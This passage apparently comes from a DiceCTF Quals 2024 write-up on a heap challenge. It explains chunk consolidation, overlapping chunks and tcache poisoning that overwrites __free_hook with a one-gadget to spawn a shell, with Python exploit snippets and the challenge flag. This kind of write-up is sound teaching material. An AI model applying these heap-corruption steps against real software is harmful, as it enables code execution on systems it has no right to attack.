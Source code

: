 
{{< figure src="/img/dicectf_quals_2024/heap_6.png" position="left" caption="Before freeing chunk d" captionPosition="left">}}

Upon freeing **d**, the `fake_free_chunk` will undergo consolidation and become part of an *unsorted bin chunk* alongside it.

{{< figure src="/img/dicectf_quals_2024/heap_7.png" position="left" caption="Consolidated unsorted bin chunk" captionPosition="left">}}


```python
k = alloc(50, "")
free(k)
```

Now, we can allocate a smaller chunk **k** that will be placed within **c**, and subsequently free it.

{{< figure src="/img/dicectf_quals_2024/heap_8.png" position="left" caption="Overlapping chunk k" captionPosition="left">}}

{{< figure src="/img/dicectf_quals_2024/heap_9.png" position="left" caption="Chunk k after free" captionPosition="left">}}

With full control over the metadata of the chunk **k**, since it is contained within **c**, we can employ **tcache poisoning**. This enables us to overwrite the `__free_hook` with the address of the *one gadget*.

```python
free(c)

alloc(0x128, b"K" * (0x128 - 40) + p64(libc.symbols["__free_hook"]) + p64(0))

alloc(0x38, "")
alloc(0x38, p64(libc.address + 0x10a2fc))
```

{{< figure src="/img/dicectf_quals_2024/heap_10.png" position="left" caption="Tcache before last malloc" captionPosition="left">}}

Now, after freeing a chunk, a shell will be spawned.

> dice{tkjctf_lmeow_fee9c2ee3952d7b9479306ddd8e477ca}
